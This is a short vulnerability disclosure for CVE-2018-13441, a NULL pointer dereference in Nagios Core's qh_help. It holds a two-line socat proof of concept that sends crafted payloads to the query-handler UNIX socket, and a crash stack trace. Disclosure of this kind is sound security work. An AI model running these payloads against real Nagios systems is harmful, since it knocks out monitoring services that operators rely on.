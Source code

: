 ```yaml
---
layout: post
title: "[CVE-2018-13441] Nagios Core qh_help Denial of Service"
date: 2018-07-09
categories:
    - blog
tags:
    - denial of service
keywords: "nagios, nagioscore, dos, denial of service"
---
```


qh_help in Nagios Core version 4.4.1 and earlier is prone to a NULL pointer dereference vulnerability, which allows attacker to cause a local denial-of-service condition by sending a crafted payload to the listening UNIX socket.

```
$ echo -ne “#help\0" | socat unix-connect:./poc/nagios.qh -
$ echo -ne “@help\0" | socat unix-connect:./poc/nagios.qh -

#0 0x554fef in qh_help /home/user/nagioscore/base/query-handler.c:374:7
#1 0x5543db in qh_input /home/user/nagioscore/base/query-handler.c:227:12
#2 0x6fac51 in iobroker_poll /home/user/nagioscore/lib/iobroker.c:353:4
#3 0x5bc334 in event_execution_loop /home/user/nagioscore/base/events.c:1136:12
#4 0x53a503 in main /home/user/nagioscore/base/nagios.c:844:4
#5 0x7f61587ae82f in __libc_start_main /build/glibc-Cl5G7W/glibc-2.23/csu/../csu/libc-start.c:291
#6 0x42b278 in _start (/home/user/nagioscore/base/nagios+0x42b278)
```
